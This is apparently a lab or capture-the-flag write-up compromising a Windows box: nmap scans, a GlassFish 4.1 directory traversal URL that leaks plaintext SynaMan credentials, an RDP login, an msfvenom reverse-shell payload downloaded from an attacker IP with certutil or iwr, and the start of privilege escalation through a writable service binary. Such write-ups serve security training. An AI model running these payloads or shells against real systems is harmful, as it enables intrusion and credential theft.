Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.243.168
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-20 13:39 IST
Warning: 192.168.243.168 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.243.168
Host is up (0.066s latency).
Not shown: 64521 closed tcp ports (reset), 994 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
3700/tcp  open  lrs-paging
4848/tcp  open  appserv-http
5040/tcp  open  unknown
6060/tcp  open  x11
7676/tcp  open  imqbrokerd
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8686/tcp  open  sun-as-jmxrmi
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 20.11 seconds
```

```sh
nmap -sV -sC -T4 -Pn -p 135,139,445,3389,3700,4848,5040,6060,7676,7680,8080,8181,8686,49664,49665,44966,49667,49668,49669,49670 192.168.243.168 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-20 13:42 IST
Stats: 0:02:37 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 94.44% done; ETC: 13:45 (0:00:09 remaining)
Nmap scan report for 192.168.243.168
Host is up (0.12s latency).

PORT      STATE  SERVICE              VERSION
135/tcp   open   msrpc                Microsoft Windows RPC
139/tcp   open   netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
3389/tcp  open   ms-wbt-server        Microsoft Terminal Services
|_ssl-date: 2021-10-30T05:07:04+00:00; -4y141d03h08m48s from scanner time.
| ssl-cert: Subject: commonName=Fishyyy
| Not valid before: 2021-10-29T04:54:04
|_Not valid after:  2022-04-30T04:54:04
| rdp-ntlm-info: 
|   Target_Name: FISHYYY
|   NetBIOS_Domain_Name: FISHYYY
|   NetBIOS_Computer_Name: FISHYYY
|   DNS_Domain_Name: Fishyyy
|   DNS_Computer_Name: Fishyyy
|   Product_Version: 10.0.19041
|_  System_Time: 2021-10-30T05:06:48+00:00
3700/tcp  open   giop
| fingerprint-strings: 
|   GetRequest, X11Probe: 
|     GIOP
|   giop: 
|     GIOP
|     (IDL:omg.org/SendingContext/CodeBase:1.0
|     169.254.99.240
|     169.254.99.240
|_    default
4848/tcp  open   http                 Sun GlassFish Open Source Edition  4.1
|_http-server-header: GlassFish Server Open Source Edition  4.1 
|_http-title: Login
5040/tcp  open   unknown
6060/tcp  open   x11?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Accept-Ranges: bytes
|     ETag: W/"425-1267803922000"
|     Last-Modified: Fri, 05 Mar 2010 15:45:22 GMT
|     Content-Type: text/html
|     Content-Length: 425
|     Date: Sat, 30 Oct 2021 05:04:20 GMT
|     Connection: close
|     Server: Synametrics Web Server v7
|     <html>
|     <head>
|     <META HTTP-EQUIV="REFRESH" CONTENT="1;URL=app">
|     </head>
|     <body>
|     <script type="text/javascript">
|     <!--
|     currentLocation = window.location.pathname;
|     if(currentLocation.charAt(currentLocation.length - 1) == "/"){
|     window.location = window.location + "app";
|     }else{
|     window.location = window.location + "/app";
|     //-->
|     </script>
|     Loading Administration console. Please wait...
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 403 
|     Cache-Control: private
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Set-Cookie: JSESSIONID=0984AA8E65F19F930C67728EEA1E576D; Path=/
|     Content-Type: text/html;charset=ISO-8859-1
|     Content-Length: 5028
|     Date: Sat, 30 Oct 2021 05:04:21 GMT
|     Connection: close
|     Server: Synametrics Web Server v7
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=UTF-8" />
|     <title>
|     SynaMan - Synametrics File Manager - Version: 5.1 - build 1595 
|     </title>
|     <meta NAME="Description" CONTENT="SynaMan - Synametrics File Manager" />
|     <meta NAME="Keywords" CONTENT="SynaMan - Synametrics File Manager" />
|     <meta http-equiv="X-UA-Compatible" content="IE=10" />
|     <link rel="icon" type="image/png" href="images/favicon.png">
|     <link type="text/css" rel="stylesheet" href="images/AjaxFileExplorer.css">
|     <link rel="stylesheet" type="text/css"
|   JavaRMI: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 145
|     Date: Sat, 30 Oct 2021 05:04:14 GMT
|     Connection: close
|     Server: Synametrics Web Server v7
|_    <html><head><title>Oops</title><body><h1>Oops</h1><p>Well, that didn't go as we had expected.</p><p>This error has been logged.</p></body></html>
7676/tcp  open   java-message-service Java Message Service 301
7680/tcp  closed pando-pub
8080/tcp  open   http                 Sun GlassFish Open Source Edition  4.1
|_http-server-header: GlassFish Server Open Source Edition  4.1 
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-title: Data Web
8181/tcp  open   ssl/http             Sun GlassFish Open Source Edition  4.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_ssl-date: TLS randomness does not represent time
|_http-title: Data Web
|_http-server-header: GlassFish Server Open Source Edition  4.1 
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2014-08-21T13:30:10
|_Not valid after:  2024-08-18T13:30:10
8686/tcp  open   java-rmi             Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @169.254.99.240:8686
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
44966/tcp closed unknown
49664/tcp open   msrpc                Microsoft Windows RPC
49665/tcp open   msrpc                Microsoft Windows RPC
49667/tcp open   msrpc                Microsoft Windows RPC
49668/tcp open   msrpc                Microsoft Windows RPC
49669/tcp open   msrpc                Microsoft Windows RPC
49670/tcp open   msrpc                Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3700-TCP:V=7.95%I=7%D=3/20%Time=69BD0193%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,C,"GIOP\x01\x02\0\x06\0\0\0\0")%r(X11Probe,C,"GIOP\x01\x02\0\x
SF:06\0\0\0\0")%r(giop,D0C,"GIOP\x01\0\0\x01\0\0\r\0\0\0\0\x03NEO\0\0\0\0\
SF:x02\0\x14\0\0\0\0\0\x06\0\0\x01P\0\0\0\0\0\0\0\(IDL:omg\.org/SendingCon
SF:text/CodeBase:1\.0\0\0\0\0\x01\0\0\0\0\0\0\x01\x14\0\x01\x02\0\0\0\0\x0
SF:f169\.254\.99\.240\0\0\x0et\0\0\0\0\0\x19\xaf\xab\xcb\0\0\0\0\x02\0\0\0
SF:d\0\0\0\x08\0\0\0\0\0\0\0\0\x14\0\0\0\0\0\0\x05\0\0\0\x01\0\0\0\x20\0\0
SF:\0\0\0\x01\0\x01\0\0\0\x02\x05\x01\0\x01\0\x01\0\x20\0\x01\x01\t\0\0\0\
SF:x01\0\x01\x01\0\0\0\0&\0\0\0\x02\0\x02\0\0\0\0\0!\0\0\0\x80\0\0\0\0\0\0
SF:\0\x01\0\0\0\0\0\0\0\$\0\0\0\"\0\0\0f\0\0\0\0\0\0\0\x01\0\0\0\x0f169\.2
SF:54\.99\.240\0\0\x0e\xec\0@\0\0\0\0\0\0\0\x08\x06\x06g\x81\x02\x01\x01\x
SF:01\0\0\0\x17\x04\x01\0\x08\x06\x06g\x81\x02\x01\x01\x01\0\0\0\x07defaul
SF:t\0\x04\0\0\0\0\0\0\0\0\0\0\x01\0\0\0\x08\x06\x06g\x81\x02\x01\x01\x01\
SF:0\0\0\x0f\0\0\0\x1f\0\0\0\x04\0\0\0\x03\0\0\0\x20\0\0\0\x04\0\0\0\x01\0
SF:\0\0\x0e\0\0\x0bR\0\0\0\0\0\0\x0bJ\0o\0r\0g\0\.\0o\0m\0g\0\.\0C\0O\0R\0
SF:B\0A\0\.\0O\0B\0J\0E\0C\0T\0_\0N\0O\0T\0_\0E\0X\0I\0S\0T\0:\0\x20\0F\0I
SF:\0N\0E\0:\0\x20\x000\x002\x005\x001\x000\x000\x000\x002\0:\0\x20\0T\0h\
SF:0e\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0I\0D\0\x20\0i\0n\0\x20\0t\0h\0e\0\x20
SF:\0t\0a\0r\0g\0e\0t\0\x20\0o\0b\0j\0e\0c\0t\0\x20\0k\0e\0y\0\x20\0d\0o\0
SF:e\0s\0\x20\0n\0o\0t\0\x20\0m\0a\0t\0c\0h\0\x20\0t\0h\0e\0\x20\0s\0e\0r\
SF:0v\0e\0r\0\x20\0k\0e\0y\0\x20\0e\0x\0p\0e\0c\0t\0e\0d\0\x20\0b\0y\0\x20
SF:\0t\0h\0e\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0\x20\0v\0m\0c\0i\0d\0:\0\x20\0
SF:O\0M\0G\0\x20\0\x20\0m\0i\0n\0o\0r\0\x20\0c\0o\0d\0e\0:\0\x20\x002\0\x2
SF:0\0\x20\0c\0o\0m\0p\0l\0e\0t\0e\0d\0:\0\x20\0N\0o\0\r\0\n\0\t\0a\0t\0\x
SF:20\0c\0o\0m\0\.\0s\0u\0n\0\.\0p\0r\0o\0x\0y\0\.\0\$\0P\0r\0o\0x\0y\x001
SF:\x004\x001\0\.\0b\0a\0d\0S\0e\0r\0v\0e\0r\0I\0d\0\(\0U\0n\0k\0n\0o\0w\0
SF:n\0\x20\0S\0o\0u\0r\0c\0e\0\)\0\r\0\n\0\t\0a\0t\0\x20\0c\0o\0m\0\.\0s\0
SF:u\0n\0\.\0c\0o\0r\0b");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port6060-TCP:V=7.95%I=7%D=3/20%Time=69BD018F%P=x86_64-pc-linux-gnu%r(Ja
SF:vaRMI,139,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;charset=u
SF:tf-8\r\nContent-Length:\x20145\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2
SF:005:04:14\x20GMT\r\nConnection:\x20close\r\nServer:\x20Synametrics\x20W
SF:eb\x20Server\x20v7\r\n\r\n<html><head><title>Oops</title><body><h1>Oops
SF:</h1><p>Well,\x20that\x20didn't\x20go\x20as\x20we\x20had\x20expected\.<
SF:/p><p>This\x20error\x20has\x20been\x20logged\.</p></body></html>")%r(Ge
SF:tRequest,2A4,"HTTP/1\.1\x20200\x20\r\nAccept-Ranges:\x20bytes\r\nETag:\
SF:x20W/\"425-1267803922000\"\r\nLast-Modified:\x20Fri,\x2005\x20Mar\x2020
SF:10\x2015:45:22\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Length:\
SF:x20425\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2005:04:20\x20GMT\r\nConn
SF:ection:\x20close\r\nServer:\x20Synametrics\x20Web\x20Server\x20v7\r\n\r
SF:\n<html>\r\n<head>\r\n<META\x20HTTP-EQUIV=\"REFRESH\"\x20CONTENT=\"1;UR
SF:L=app\">\r\n</head>\r\n<body>\r\n\r\n<script\x20type=\"text/javascript\
SF:">\r\n<!--\r\n\r\nvar\x20currentLocation\x20=\x20window\.location\.path
SF:name;\r\nif\(currentLocation\.charAt\(currentLocation\.length\x20-\x201
SF:\)\x20==\x20\"/\"\){\r\n\twindow\.location\x20=\x20window\.location\x20
SF:\+\x20\"app\";\r\n}else{\r\n\twindow\.location\x20=\x20window\.location
SF:\x20\+\x20\"/app\";\r\n}\x20\r\n//-->\r\n</script>\r\n\r\nLoading\x20Ad
SF:ministration\x20console\.\x20Please\x20wait\.\.\.\r\n</body>\r\n</html>
SF:")%r(HTTPOptions,14D3,"HTTP/1\.1\x20403\x20\r\nCache-Control:\x20privat
SF:e\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nSet-Co
SF:okie:\x20JSESSIONID=0984AA8E65F19F930C67728EEA1E576D;\x20Path=/\r\nCont
SF:ent-Type:\x20text/html;charset=ISO-8859-1\r\nContent-Length:\x205028\r\
SF:nDate:\x20Sat,\x2030\x20Oct\x202021\x2005:04:21\x20GMT\r\nConnection:\x
SF:20close\r\nServer:\x20Synametrics\x20Web\x20Server\x20v7\r\n\r\n<!DOCTY
SF:PE\x20html>\r\n\r\n\r\n<html>\r\n<head>\r\n<meta\x20http-equiv=\"conten
SF:t-type\"\x20content=\"text/html;\x20charset=UTF-8\"\x20/>\r\n<title>\r\
SF:nSynaMan\x20-\x20Synametrics\x20File\x20Manager\x20-\x20Version:\x205\.
SF:1\x20-\x20build\x201595\x20\r\n</title>\r\n\r\n\r\n<meta\x20NAME=\"Desc
SF:ription\"\x20CONTENT=\"SynaMan\x20-\x20Synametrics\x20File\x20Manager\"
SF:\x20/>\r\n<meta\x20NAME=\"Keywords\"\x20CONTENT=\"SynaMan\x20-\x20Synam
SF:etrics\x20File\x20Manager\"\x20/>\r\n\r\n\r\n<meta\x20http-equiv=\"X-UA
SF:-Compatible\"\x20content=\"IE=10\"\x20/>\r\n\r\n\r\n\r\n<link\x20rel=\"
SF:icon\"\x20type=\"image/png\"\x20href=\"images/favicon\.png\">\r\n\x20\r
SF:\n\x20\r\n\r\n<link\x20type=\"text/css\"\x20rel=\"stylesheet\"\x20href=
SF:\"images/AjaxFileExplorer\.css\">\r\n\r\n\r\n\r\n<link\x20rel=\"stylesh
SF:eet\"\x20type=\"text/css\"\x20");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1602d03h08m48s, deviation: 0s, median: -1602d03h08m48s
| smb2-time: 
|   date: 2021-10-30T05:06:49
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.81 seconds
```

Quite a few open ports here, but the HTTP web server on port 4848 running Oracle GlassFish Open Source Edition version 4.1 and the HTTP web server on port 6060 running SynaMan version 5.1 stick out to me the most:
4848


6060


for 4848, we see if there are glassfish server open source default passwords.
username admin and password blank is the default for all GlassFish 4.1.



https://www.exploit-db.com/exploits/39441?source=post_page-----686641bf1bdc---------------------------------------

This is a pretty simple directory traversal vulnerability by appending the path to the end of the URL. I confirm that it works by trying to read the C:\Windows\win.ini file on the target:





ok anyways the POC works.

we see there is synaman here and when we search for synaman configuration files we found. Instead, I’ll pivot over to SynaMan 5.1 I found earlier and attempt to read the application’s configuration file located at C:/SynaMan/config/AppConfig.xml:

https://www.exploit-db.com/exploits/45387



```URL
http://192.168.243.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af../SynaMan/config/AppConfig.xml
```



I’m able to successfully read the file and it exposes a set of plaintext credentials of `Arthur:KingOfAtlantis`.


Even though **SynaMan runs on port 6060**, its **configuration files are stored on disk**:

C:\SynaMan\config\AppConfig.xml

Since the **GlassFish traversal lets you read arbitrary files**, the attacker used **GlassFish (4848)** to read **SynaMan's config file**.

The request used:

http://192.168.114.168:4848/theme/META-INF/prototype%c0%af..%c0%af..../SynaMan/config/AppConfig.xml

So the logic was:

GlassFish (4848) vulnerability  
↓  
Read arbitrary files on disk  
↓  
Access SynaMan config file  
↓  
Extract credentials


### Why Not Exploit SynaMan Directly?

Because:

- No working exploit was found for **SynaMan 5.1**

- But **GlassFish 4.1 already had a known exploit**


So the attacker used:

GlassFish vulnerability  
↓  
Read SynaMan credentials  
↓  
RDP login

### Attack Chain (Complete Flow)

Nmap Scan  
   ↓  
GlassFish 4.1 detected (port 4848)  
   ↓  
Search exploits  
   ↓  
Directory Traversal (CVE-2017-1000028)  
   ↓  
Read local files  
   ↓  
Find SynaMan config  
   ↓  
Extract credentials: Arthur:KingOfAtlantis  
   ↓  
RDP login  
   ↓  
Initial foothold  
   ↓  
Privilege escalation → SYSTEM

**We see smtpusername arthur and password KingOfAtlantis**

ah like aquaman ahaha

port 3389 shows rdp so we try xfreerdp inside.

```sh
xfreerdp3 /u:arthur /p:'KingOfAtlantis' /v:192.168.243.168
```

and we are in …. we found the flag local.txt


I prefer a reverse shell that I can interactive with via my Kali terminal, so I’ll create a malicious executable file with msfvenom:
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.157 LPORT=4444 -f exe > rev.exe
```

```cmd
certutil -urlcache -split -f http://192.168.45.157:8000/rev.exe rev.exe
```

OR 

```cmd or PS
iwr -uri http://192.168.45.159/pwned.exe -outfile pwned.exe
```




With the file successfully transferred, I’ll set up my netcat listener to catch the reverse shell, then execute the payload:



As shown above, I now have a reverse shell on the box as ‘arthur’

### privilege Escalation

whoami priv does not show me anything of note here so we do winpeas

We transfer and ran winpeas.





so we can write into.




```cmd
C:\glassfish4\glassfish\domains\domain1\bin\domainservice.exe
```

Additionally, I find that arthur also has the ‘SeShutdownPrivilege’ assigned, which will allow me to restart the host:

